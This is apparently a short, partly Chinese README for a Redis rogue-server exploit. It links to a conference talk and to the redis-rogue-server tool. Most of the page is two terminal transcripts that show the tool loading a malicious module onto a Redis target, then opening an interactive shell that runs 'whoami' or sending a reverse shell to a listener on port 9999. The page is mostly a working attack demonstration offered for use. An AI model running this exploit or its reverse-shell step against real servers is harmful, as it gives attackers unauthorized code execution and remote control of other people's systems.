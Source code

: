 关于漏洞原理请查看 [Pavel Toporkov 的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

**Interactive shell**

```bash
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] :n0b0dy
[<<]
```

**Reverse shell**

Invoke reverse shell:

```bash
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 127.0.0.1
Reverse server port: 9999
[info] Reverse shell payload sent.
[info] Check at 127.0.0.1:9999
[info] Unload module...
```
